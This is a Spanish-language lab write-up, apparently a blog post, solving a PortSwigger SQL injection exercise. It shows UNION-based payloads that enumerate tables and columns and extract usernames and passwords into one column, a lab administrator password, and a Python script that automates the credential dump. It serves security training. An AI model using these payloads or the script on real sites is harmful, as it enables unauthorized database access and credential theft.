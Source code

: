 ```yaml
---
title: "06 SQL injection UNION attack, retrieving multiple values in a single column"
collection: publications
category: portswigger
permalink: publications/SQLi/06_SQL injection UNION attack, retrieving multiple values in a single column
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que recupera los nombres de usuario y las contraseñas de los usuarios de la aplicación en una única columna.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection UNION attack, retrieving multiple values in a single column'
---
```


![logo]({{site.url}}/images/SQLi/sqli-6/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-6/descripcion.png)

## Objetivo del laboratorio

Realizar un ataque UNION de inyección SQL que recupere todos los nombres de usuario y contraseñas, y utilice la información para iniciar sesión como usuario `administrator`.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-6/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

![Order by]({{site.url}}/images/SQLi/sqli-6/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--   -> Error
' UNION SELECT NULL, 'A'--   -> Correcta
```

![String]({{site.url}}/images/SQLi/sqli-6/tipo string.png)

## Obtener que tipo de Base de dato es:

Es una BD Postgres SQL, en esta ocación realizamos la insercion en la segunda columna ya que es inyectable

```javascript
' UNION SELECT NULL, version()--
```

![Base de datos]({{site.url}}/images/SQLi/sqli-6/version bd.png)

![Base de datos]({{site.url}}/images/SQLi/sqli-5/BD.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-6/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'--
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-6/columnas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla. En esta ocación unimos en una sola columna

```javascript
' UNION SELECT NULL,username || '*****' || password FROM users--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-6/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
1xezeeiddf3uw560r9m0
```

![login]({{site.url}}/images/SQLi/sqli-6/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-6/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_users_table(url):
    username = 'administrator'
    path = '/filter?category=Pets'
    sql_payload = "' UNION select NULL, username || '*' || password from users--"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    if "administrator" in res:
        print("[+] Found the administrator password...")
        soup = BeautifulSoup(r.text, 'html.parser')
        admin_password = soup.find(text=re.compile('.*administrator.*')).split("*")[1]
        print("[+] The administrator password is '%s'." % admin_password)
        return True
    return False



if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("[+] Dumping the list of usernames and passwords...")
    if not exploit_sqli_users_table(url):
        print("[-] Did not find an administrator password.")
    
```
